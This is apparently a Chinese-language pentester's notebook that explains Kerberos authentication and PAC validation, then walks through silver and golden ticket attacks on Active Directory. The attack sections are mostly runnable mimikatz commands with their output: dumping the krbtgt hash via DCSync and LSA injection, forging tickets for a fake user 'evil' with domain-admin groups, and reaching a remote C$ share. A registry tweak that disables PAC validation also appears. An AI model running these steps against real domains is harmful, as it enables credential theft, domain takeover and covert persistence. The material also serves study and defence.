









# **原理**

## **一、Kerberos认证**

https://www.dazhuanlan.com/2020/02/03/5e3738460a38b/

[https://qili93.github.io/%E6%8A%80%E6%9C%AF%E8%A7%A3%E8%AF%BB/2017/03/14/kerebros-auth/](https://qili93.github.io/技术解读/2017/03/14/kerebros-auth/)

https://en.hackndo.com/kerberos/




### **1. Authentication Service Exchange**

。具体过程如下：

Client向KDC的Authentication Service发送Authentication Service Request（KRB_AS_REQ）, 为了确保KRB_AS_REQ仅限于自己和KDC知道，Client使用自己的Master Key对KRB_AS_REQ的主体部分进行加密（KDC可以通过Domain 的Account Database获得该Client的Master Key）。KRB_AS_REQ的大体包含以下的内容：

- Pre-authentication data：包含用以证明自己身份的信息。说白了，就是证明自己知道自己声称的那个account的Password。一般地，它的内容是一个被Client的Master key加密过的Timestamp。

- Client name & realm: 简单地说就是Domain name\Client

- Server Name：注意这里的Server Name并不是Client真正要访问的Server的名称，而我们也说了TGT是和Server无关的（Client只能使用Ticket，而不是TGT去访问Server）。这里的Server Name实际上是**KDC的Ticket Granting Service的Server Name**。

  




### **2. Ticket Granting Service Exchange**

TGS（Ticket Granting Service）Exchange通过Client向KDC中的TGS（Ticket Granting Service）发送Ticket Granting Service Request（KRB_TGS_REQ）开始。KRB_TGS_REQ大体包含以下的内容：

- TGT：Client通过AS Exchange获得的Ticket Granting Ticket，TGT被KDC的Master Key进行加密。
- Authenticator：用以证明当初TGT的拥有者是否就是自己，所以它必须以TGT的颁发方（KDC）给自己（Client）的Session Key（SKDC-Client：Logon Session Key）来进行加密。
- Client name & realm: 简单地说就是Domain name\Client。
- Server name & realm: 简单地说就是Domain name\Server，这回是Client试图访问的那个Server。



TGS收到KRB_TGS_REQ在发给Client真正的Ticket之前，先得验证Client提供的那个TGT是否是AS颁发给它的。于是它需要验证Client提供的Authenticator，但是Authentication是通过Logon Session Key（SKDC-Client）进行加密的，而自己并没有保存这个Session Key。所以TGS先得通过自己的Master Key对Client提供的TGT进行解密，从而获得这个Logon Session Key（SKDC-Client），再通过这个Logon Session Key（SKDC-Client）解密Authenticator进行验证。验证通过向对方发送Ticket Granting Service Response（KRB_TGS_REP）。这个KRB_TGS_REP有两部分组成：使用Logon Session Key（SKDC-Client）加密过用于Client和Server的Session Key（SServer-Client）和使用Server的Master Key进行加密的Ticket。该Ticket大体包含以下一些内容：

- Session Key：SServer-Client。
- Client name & realm: 简单地说就是Domain name\Client。
- PAC
- End time: Ticket的到期时间。

Client收到KRB_TGS_REP，使用Logon Session Key（SKDC-Client）解密第一部分后获得Session Key（SServer-Client）。有了Session Key和Ticket，Client就可以之间和Server进行交互，而无须在通过KDC作中间人了。

### **3. Client/Server Exchange**

Client通过TGS Exchange获得Client和Server的Session Key（SServer-Client），随后创建用于证明自己就是Ticket的真正所有者的Authenticator，并使用Session Key（SServer-Client）进行加密。最后将这个被加密过的Authenticator和Ticket作为Application Service Request（KRB_AP_REQ）发送给Server。除了上述两项内容之外，KRB_AP_REQ还包含一个Flag用于表示Client是否需要进行双向验证（Mutual Authentication）。

Server接收到KRB_AP_REQ之后，通过自己的Master Key解密Ticket，从而获得Session Key（SServer-Client）。通过Session Key（SServer-Client）解密Authenticator，进而验证对方的身份，验证成功，让Client访问需要访问的资源，否则直接拒绝对方的请求。


#### 细节补充：


##### 1. 通过PAC检查Client是否有权限访问请求的资源

> https://en.hackndo.com/kerberoasting/
>
> A domain user can ask a domain controller for a TGS for any service. It is not the role of the domain controller to check access rights. The only purpose of the domain controller when asked for a TGS is to provide security information related to a user (via the [PAC](https://en.hackndo.com/kerberos-silver-golden-tickets/#pac)). It is the service who must check the user’s rights by reading the PAC provided in the TGS.

> http://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/
>
> The PAC contains two cryptographic signatures. One signature created with the service’s key and the other created with the KDC’s key. Because of these dual signatures, the PAC is effectively tamper-proof.
>
> The service will then use its key to check the signature of the PAC. This provides the user’s authorization upfront, so the service doesn’t need to fetch it from the KDC. 


##### 2.(可选)Server向KDC请求验证PAC签名，确保PAC未被篡改

> http://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/
>
> Optionally, the service may choose to send the PAC to the KDC, so that the KDC may validate the second signature against the KDC’s key. If performed, this optional check verifies that the PAC has not been altered from when it was first created by the KDC and helps prevent attempts to forge the PAC and escalate privileges.


##### 3. (可选) Client与Server双向认证

> https://qili93.github.io/%E6%8A%80%E6%9C%AF%E8%A7%A3%E8%AF%BB/2017/03/14/kerebros-auth/
>
> Kerberos一个重要的优势在于它能够提供双向认证：不但Server可以对Client 进行认证，Client也能对Server进行认证。
>
> 具体过程是这样的，如果Client需要对他访问的Server进行认证，会在它向Server发送的Credential中设置一个是否需要认证的Flag。Server在对Client认证成功之后，会把Authenticator中的Timestamp提出出来，通过Session Key进行加密，当Client接收到并使用Session Key进行解密之后，如果确认Timestamp和原来的完全一致，那么他可以认定Server正式他试图访问的Server。
>
> 那么为什么Server不直接把通过Session Key进行加密的Authenticator原样发送给Client，而要把Timestamp提取出来加密发送给Client呢？原因在于防止恶意的监听者通过获取的Client发送的Authenticator冒充Server获得Client的认证。


##### 4. 为何要用Timestamp

我们试想这样的现象：Client向Server发送的数据包被某个恶意网络监听者截获，该监听者随后将数据包作为自己的Credential冒充该Client对Server进行访问，在这种情况下，依然可以很顺利地获得Server的成功认证。为了解决这个问题，Client在Authenticator中会加入一个当前时间的Timestamp。在Server对Authenticator中的Client Info和Session Ticket中的Client Info进行比较之前，会先提取Authenticator中的Timestamp，并同当前的时间进行比较，如果他们之间的偏差超出一个可以接受的时间范围（一般是5mins），Server会直接拒绝该Client的请求。


## **二、域账号登陆验证过程**



# Pass the Ticket

https://my.oschina.net/u/4349795/blog/3220366

https://en.hackndo.com/kerberos-silver-golden-tickets/  (一定要看! 为什么黄金票据能伪造成任意用户)

**PAC(Privilege Attribute Certificate)** 

TGT和Ticket中都包含PAC，里面描述了Client的SID、所属组，以下是一个TGT中PAC内容示例。

```
AuthorizationData item
    ad-type: AD-Win2k-PAC (128)
        Type: Logon Info (1)
            PAC_LOGON_INFO: 01100800cccccccce001000000000000000002006a5c0818...
                Logon Time: Aug 17, 2018 16:25:05.992202600 Romance Daylight Time
                Logoff Time: Infinity (absolute time)
                PWD Last Set: Aug 16, 2018 14:13:10.300710200 Romance Daylight Time
                PWD Can Change: Aug 17, 2018 14:13:10.300710200 Romance Daylight Time
                PWD Must Change: Infinity (absolute time)
                Acct Name: pixis
                Full Name: pixis
                Logon Count: 7
                Bad PW Count: 2
                User RID: 1102
                Group RID: 513
                GROUP_MEMBERSHIP_ARRAY
                    Referent ID: 0x0002001c
                    Max Count: 2
                    GROUP_MEMBERSHIP:
                        Group RID: 1108
                        Attributes: 0x00000007
                            .... .... .... .... .... .... .... .1.. = Enabled: The enabled bit is SET
                            .... .... .... .... .... .... .... ..1. = Enabled By Default: The ENABLED_BY_DEFAULT bit is SET
                            .... .... .... .... .... .... .... ...1 = Mandatory: The MANDATORY bit is SET
                    GROUP_MEMBERSHIP:
                        Group RID: 513
                        Attributes: 0x00000007
                            .... .... .... .... .... .... .... .1.. = Enabled: The enabled bit is SET
                            .... .... .... .... .... .... .... ..1. = Enabled By Default: The ENABLED_BY_DEFAULT bit is SET
                            .... .... .... .... .... .... .... ...1 = Mandatory: The MANDATORY bit is SET
                User Flags: 0x00000020
                User Session Key: 00000000000000000000000000000000
                Server: DC2016
                Domain: HACKNDO
                SID pointer:
                    Domain SID: S-1-5-21-3643611871-2386784019-710848469  (Domain SID)
                User Account Control: 0x00000210
                    .... .... .... ...0 .... .... .... .... = Don't Require PreAuth: This account REQUIRES preauthentication
                    .... .... .... .... 0... .... .... .... = Use DES Key Only: This account does NOT have to use_des_key_only
                    .... .... .... .... .0.. .... .... .... = Not Delegated: This might have been delegated
                    .... .... .... .... ..0. .... .... .... = Trusted For Delegation: This account is NOT trusted_for_delegation
                    .... .... .... .... ...0 .... .... .... = SmartCard Required: This account does NOT require_smartcard to authenticate
                    .... .... .... .... .... 0... .... .... = Encrypted Text Password Allowed: This account does NOT allow encrypted_text_password
                    .... .... .... .... .... .0.. .... .... = Account Auto Locked: This account is NOT auto_locked
                    .... .... .... .... .... ..1. .... .... = Don't Expire Password: This account DOESN'T_EXPIRE_PASSWORDs
                    .... .... .... .... .... ...0 .... .... = Server Trust Account: This account is NOT a server_trust_account
                    .... .... .... .... .... .... 0... .... = Workstation Trust Account: This account is NOT a workstation_trust_account
                    .... .... .... .... .... .... .0.. .... = Interdomain trust Account: This account is NOT an interdomain_trust_account
                    .... .... .... .... .... .... ..0. .... = MNS Logon Account: This account is NOT a mns_logon_account
                    .... .... .... .... .... .... ...1 .... = Normal Account: This account is a NORMAL_ACCOUNT
                    .... .... .... .... .... .... .... 0... = Temp Duplicate Account: This account is NOT a temp_duplicate_account
                    .... .... .... .... .... .... .... .0.. = Password Not Required: This account REQUIRES a password
                    .... .... .... .... .... .... .... ..0. = Home Directory Required: This account does NOT require_home_directory
                    .... .... .... .... .... .... .... ...0 = Account Disabled: This account is NOT disabled
```

## **白银票据**

Ticket中的PAC是双重签名的，第一个由server账户签名，第二个由krbtgt 账户签名。我们无法伪造krbtgt账户的签名，但是当server收到ticket的时候，它通常只验证第一个签名，不会去找KDC验证krbtgt账户的签名，从而我们可以伪造ticket通过认证。或者通过设置如下注册表，让server不请求KDC验证PAC:

*HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters*

*DWORD Value Name: ValidateKdcPacSignature* 

When the DWORD value of this entry is 0, Kerberos does not perform PAC validation on a process that runs as a service.


白银票据不会与DC通信，因此相比黄金票据更隐蔽，是一种很好的权限维持手段；


### [白银票据例子](https://adsecurity.org/?p=2011)：

```
kerberos::golden /domain:ring2.com /sid:S-1-5-21-2475887593-94489213-2292866110 /target:win10-pc2.ring2.com /service:cifs /rc4:0b247d5c4f73feec13228f650b71ac5f /user:test /ptt
```


#### 1. 利用CIFS服务，操作windows admin share





#### 2. 利用HOST服务，操作计划任务


Leveraging the HOST Silver Ticket, we can create a new scheduled task.

[](https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-DC-HOST-Exploit01.png)

Or by leveraging the HOST Silver Ticket, we can *modify* an exist scheduled task.

[](https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-DC-HOST-Exploit02.png)

Check to see if the scheduled task was set. Yes, it’s there!

[](https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-DC-HOST-Exploit03.png)


#### 3. 利用http&wsman服务，调用winrm

[](https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-DC-HTTP.png)

[](https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-DC-WSMAN.png)




#### 4. 利用host&rpcss服务执行WMI

[

[(https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-adsdc02-rpcss.jpg)

`Invoke-WmiMethod win32_process -ComputerName $Computer -Credential $Creds -name create -argumentlist “$RunCommand”`


#### 5. 利用LDAP服务执行DCSync

这个例子的重点不在于最后做DCSync，而是演示用DC$密码后利用白银票据保持对AD的高操作权限。





## **黄金票据**

知道krbtgt Hash后可伪造TGT，说本账号属于Domain Admins等管理员组。域控制器中的KDC服务不验证TGT中的用户帐户，直到[TGT超过20分钟，](http://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-and.html)这意味着攻击者可以使用禁用和删除的帐户，甚至是在Active Directory中不存在的虚拟帐户。

> 微软的MS-KILE解释：Kerberos V5不提供对TGS请求的帐户撤销检查，只要TGT有效，即使该帐户已被删除，TGT更新和服务票据也可以发布。KILE提供了一个可以将利用时间限制在较短的时间内（20分内）。当TGT大于20分钟时，KILE KDC需要在域中检查账户。                                   

黄金票据的条件要求：

- 域名称
- 域的SID 值 
- 域的KRBTGT账户NTLM密码哈希或者aes-256值
- 伪造用户名 administrator

mimikatz会根据我们传入的域SID，自动为我们拼接成以下SID，从而伪装具有下列权限的账户。

黄金票默认组：

- 域用户SID：S-1-5-21 <DOMAINID> -513

- 域管理员SID：S-1-5-21 <DOMAINID> -512

- 架构管理员SID：S-1-5-21 <DOMAINID> -518

- 企业管理员SID：S-1-5-21 <DOMAINID> -519（对于有多个子域的域林，企业管理员的Domain SID只在森林根域中，所以传入子域的Domain SID是无法伪造企业管理员账户的，可以使用/sids参数将域林管理员SID添加到SID History中，权限进一步从子域提升到整个域林）

- 组策略创建者所有者SID：S-1-5-21 <DOMAINID> -520


**step 1. 获取domain name**

```
C:\Users\win10>ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : win10-pc
   Primary Dns Suffix  . . . . . . . : ring2.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : ring2.com
```

**step 2. 获取域SID**

```
C:\Users\win10>whoami /all

USER INFORMATION
----------------

User Name   SID
=========== ============================================
ring2\win10 S-1-5-21-2475887593-94489213-2292866110-1103
```

**step 3. 获取krbtgt hash**

```
mimikatz # lsadump::dcsync /user:krbtgt
[DC] 'ring2.com' will be the domain
[DC] 'ringdc-pc.ring2.com' will be the DC server
[DC] 'krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/10/2020 10:58:42 AM
Object Security ID   : S-1-5-21-2475887593-94489213-2292866110-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 29bb608cc69ec270aed8805b190cff38
    ntlm- 0: 29bb608cc69ec270aed8805b190cff38
    lm  - 0: 67caa7fabf71d94ac00ec2adfaa076f0
```

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : RING2 / S-1-5-21-2475887593-94489213-2292866110

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 29bb608cc69ec270aed8805b190cff38
    LM   :
  Hash NTLM: 29bb608cc69ec270aed8805b190cff38
    ntlm- 0: 29bb608cc69ec270aed8805b190cff38
    lm  - 0: 67caa7fabf71d94ac00ec2adfaa076f0
```

**step 4. ptt**

```
c:\Users\win10\Desktop>dir \\win10-pc2\c$
Access is denied.

c:\Users\win10\Desktop>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # kerberos::golden /user:evil /domain:ring2.com /sid:S-1-5-21-2475887593-94489213-2292866110 /krbtgt:29bb608cc69ec270aed8805b190cff38 /ptt
User      : evil
Domain    : ring2.com (RING2)
SID       : S-1-5-21-2475887593-94489213-2292866110
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 29bb608cc69ec270aed8805b190cff38 - rc4_hmac_nt
Lifetime  : 7/29/2020 11:21:09 PM ; 7/27/2030 11:21:09 PM ; 7/27/2030 11:21:09 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'evil @ ring2.com' successfully submitted for current session

mimikatz # exit
Bye!

// 注: 这里要用机器名而不是IP，因为TGS Request中发的是server computer name, DC中查server Hash也是根据computer_name$查的
c:\Users\win10\Desktop>dir \\win10-pc2\c$
 Volume in drive \\win10-pc2\c$ has no label.
 Volume Serial Number is 82AC-49B6

 Directory of \\win10-pc2\c$

07/10/2020  04:06 PM    <DIR>          PerfLogs
07/27/2020  04:12 AM    <DIR>          Program Files
07/10/2020  04:14 PM    <DIR>          Program Files (x86)
07/10/2020  04:16 PM    <DIR>          Users
07/27/2020  10:18 AM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  43,286,941,696 bytes free
```
